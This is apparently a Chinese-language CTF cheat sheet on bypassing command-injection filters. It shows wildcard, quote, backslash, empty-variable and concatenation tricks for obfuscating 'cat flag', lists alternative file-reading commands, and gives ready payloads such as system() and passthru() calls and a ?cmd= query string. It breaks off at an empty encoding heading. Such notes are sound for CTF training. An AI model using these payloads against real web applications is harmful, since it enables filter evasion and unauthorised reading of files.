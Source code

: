 ```
#cat fl?g.tx?
```

*在linux里面可以进行模糊匹配。\*可以代表任何字符串

**2.単引号，双引号绕过**

```
system('cat fl""ag.p""hp');
外单内双，外双内単
```

**3.反斜杠\绕过**

把特殊字符去掉功能性，单纯表示为字符串

system('cat fl\ag.p\hp');

4.**特殊变量：$1到\$9、\$@和\$*等**

输出为空

cat fl$1ag.t\$9xt

**5.内联执行**

自定义字符串，再拼接起来

a=f;d=ag;c=l;cat$a\$c\$d.txt

**6.利用linux中的环境变量**

![image-20240424171843635](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404241718857.png)

------

### 常见文件读取命令绕过

```
more:一页一页的显示档案内容
less:与 more 类似 head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号,跟cat功能类似
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看，用于排序文件
passthru("/usr/bin/s?rt" fl\ag.p\hp)
uniq:可以查看报告或删除文件中重复的文件
file -f:报错出具体内容 
grep 在文件中查找某些字符串
1、在当前目录中，查找后缀有 file 字样的文件中包含 test 字符串的文件，并打印出该字符串的行。此时，可以使用如下命令： grep test *file strings
2.查找flag：?cmd=passthru("grep fla fla*") 从fla*文件中查找包含fla的字符串
```



### 编码绕过
